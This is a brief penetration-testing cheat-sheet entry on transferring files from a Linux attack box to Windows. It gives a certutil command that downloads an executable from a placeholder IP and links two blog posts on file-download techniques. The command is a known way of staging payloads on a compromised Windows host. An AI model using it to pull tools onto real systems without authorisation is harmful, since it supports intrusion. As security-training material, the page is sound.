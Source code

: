 # Transferring files

File Transfer (download copy from linux to windows)

```
 certutil -urlcache -f http://ip/1.exe 1.exe​
```

```
https://blog.ropnop.com/transferring-files-from-kali-to-windows/https://blog.netspi.com/15-ways-to-download-a-file/
```

​
